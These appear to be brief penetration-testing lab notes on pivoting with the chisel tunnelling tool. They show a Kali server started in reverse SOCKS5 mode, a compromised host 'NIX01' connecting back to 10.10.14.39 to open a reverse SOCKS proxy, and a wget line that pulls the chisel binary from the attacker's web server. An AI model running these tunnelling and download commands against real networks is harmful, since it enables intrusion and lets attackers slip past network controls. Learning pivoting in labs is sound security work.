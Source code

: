 ### On Kali Machine
#chiselserver
```bash
┌──(root㉿kali)-[/opt/chisel]
└─# ./chisel_64 server --socks5 --reverse -p 1000
2023/08/10 12:41:50 server: Reverse tunnelling enabled
2023/08/10 12:41:50 server: Fingerprint 2IPANylYvmV2NdxK3rDm/Bejk8EcLWUKsJRzorLtz1c=
2023/08/10 12:41:50 server: Listening on http://0.0.0.0:1000

./chisel_1.8.1_linux_amd64  --socks5 --reverse -p 1000

./chisel_64 server --socks5 --reverse -p 1000
```

### On Client Machine 
#chiselclient
```bash
root@NIX01:~# ./chisel_64 client 10.10.14.39:1000 R:1080:socks
./chisel_64 client 10.10.14.39:1000 R:1080:socks
2023/08/10 09:43:05 client: Connecting to ws://10.10.14.39:1000
2023/08/10 09:43:06 client: Connected (Latency 27.77469ms)

./chisel_64 client 10.10.14.39:1000 R:1080:socks
```

wget http://10.10.14.39:8000/chisel_64.



